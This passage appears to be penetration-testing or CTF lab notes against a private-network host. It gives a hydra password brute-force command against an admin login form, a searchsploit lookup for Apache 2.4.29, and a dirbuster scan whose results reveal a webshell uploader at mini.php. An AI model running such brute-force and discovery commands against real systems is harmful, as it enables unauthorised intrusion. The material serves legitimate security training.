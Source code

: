   

```sh

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.184.132 http-post-form "/admin/login.php:username=^USER^&password=^PASS^:Access denied for user"

```

  
  

Kernel Exploits

```sh

searchsploit Apache 2.4.29

```

Nothing version specific

  

Target URL:

```

http://192.168.184.132

```

  

Check for non-navigable directories

```sh

dirbuster

```

- Run `50` threads

- Wordlist location:

```

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```

Dir found: / - 200

Dir found: /icons/ - 403

File found: /mini.php - 200

Dir found: /icons/small/ - 403

Dir found: /javascript/ - 403

  

Mini.php is a webshell uploader
